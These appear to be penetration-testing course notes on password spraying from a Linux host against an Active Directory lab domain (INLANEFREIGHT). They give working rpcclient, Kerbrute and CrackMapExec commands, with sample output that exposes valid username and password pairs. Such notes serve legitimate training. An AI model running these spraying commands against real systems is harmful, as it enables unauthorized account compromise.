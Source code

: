 # Internal Password Spraying – from Linux

## Overview
- After building a valid user list, execute password spraying attacks from a Linux host.
- Use tools like rpcclient, Kerbrute, and CrackMapExec for different protocols and stealth levels.
- Always proceed with caution to avoid account lockouts and detection.

---

## Password Spraying with rpcclient
**Bash One-liner:**
```bash
for u in $(cat valid_users.txt); do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
**Sample Output:**
```
Account Name: tjohnson, Authority Name: INLANEFREIGHT
Account Name: sgage, Authority Name: INLANEFREIGHT
```

---

## Password Spraying with Kerbrute
**Command:**
```bash
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1
```
**Sample Output:**
```
[+] VALID LOGIN: sgage@inlanefreight.local:Welcome1
Done! Tested 57 logins (1 successes) in 0.172 seconds
```

---

## Password Spraying with CrackMapExec
**Command:**
```bash
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```
**Sample Output:**
```
SMB 172.16.5.5 445 ACADEMY-EA-DC01 [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```

**Validating Credentials:**
```bash
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123
```

---